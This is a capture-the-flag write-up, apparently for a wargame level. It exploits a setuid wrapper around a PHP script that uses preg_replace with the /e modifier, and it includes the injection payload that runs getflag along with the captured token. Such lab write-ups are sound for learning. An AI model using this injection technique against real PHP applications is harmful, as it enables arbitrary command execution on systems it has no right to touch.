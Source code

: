 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2006(level06) gid=2006(level06) groups=2006(level06),100(users)
```

This shows that we are operating as the user `level06`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php


$ file level06
level06: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaabebdcd979e47982e99fa318d1225e5249abea7, not stripped

$ file level06.php
level06.php: a /usr/bin/php script, ASCII text executable


$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

$ ./level06.php hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

The level06 binary is a setuid ELF executable, meaning it executes with the flag06 user's permissions.
The level06.php script is a PHP script.

Running the level06 binary directly produces the same error, indicating the binary runs the PHP script with flag06's privileges.

---
## Step 3: Read the source code of script

```php
#!/usr/bin/php

<?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    
    function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    
    $r = x($argv[1], $argv[2]);
    print $r;
?>

```
### Explanation:
A key vulnerability here is the use of the /e modifier in preg_replace, which evaluates the replacement string as PHP code. This can be exploited to execute arbitrary commands.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can craft a file containing malicious input that will be executed by the preg_replace function:

```bash
echo '[x echo ${`getflag`};]' > /tmp/getflag
```

```bash
$ ./level06 /tmp/getflag
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
---

And there you have it, the token is `wiok45aaoguiboiki2tuin6ub`.
